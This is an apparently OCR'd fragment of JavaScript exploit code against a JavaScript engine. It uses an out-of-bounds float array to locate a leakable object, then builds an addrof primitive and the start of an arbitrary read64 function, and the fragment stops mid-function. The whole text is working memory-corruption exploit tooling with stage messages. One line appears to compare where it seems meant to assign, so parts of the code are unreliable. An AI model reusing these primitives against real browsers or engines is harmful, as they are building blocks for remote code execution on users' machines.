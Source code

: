 ```javascript
        let leak_obj;
        for(let i=size_search;i<new_len;i++){
            ftoi(OOB[i]);                                   // Why is this here ? No idea.

            if(hex(ftoi(OOB[i])).includes("22222222")){
                
                let aux = new ArrayBuffer(8);
                let int_aux = new Uint32Array(aux);
                let float_aux = new Float64Array(aux);
                
                float_aux[0] = OOB[i];
                if(int_aux[0].toString(16) == "22222222"){
                    int_aux[0] == 0x44444444;
                }
                else{
                    int_aux[1] = 0x44444444;
                }
                OOB[i] = float_aux[0];

                for(let j=0; j<objarr.length; j++){
                    if(objarr[j].findme != 0x11111111){
                        leak_obj = objarr[j];
                        marker = i;
                        print("Found the leakable object. ");
                        break;
                    }
                }
                if(marker != -1){
                    break;
                }
            }
        }
        
        print("Achieved addrof primitive.")
        function addrof(obj){
            leak_obj.a = obj;
            leak_obj.b = obj;

            let aux = new ArrayBuffer(8);
            let int_aux = new Uint32Array(aux);
            let float_aux = new Float64Array(aux);

            float_aux[0] = OOB[marker - 1];

            if(int_aux[0] != int_aux[1]){
                int_aux[0] = int_aux[1];
            }

            let res = BigInt(int_aux[0]);
            return res;
        }

        print("Achieved Arbitrary Read.");
        function read64(addr){
            let aux = new ArrayBuffer(8);
            let int_aux = new Uint32Array(aux);
            let float_aux = new Float64Array(aux);

            float_aux[0] = OOB[marker];

            let save, ret;
            if(int_aux[0] == 0x44444444){
                save = float_aux[0];
```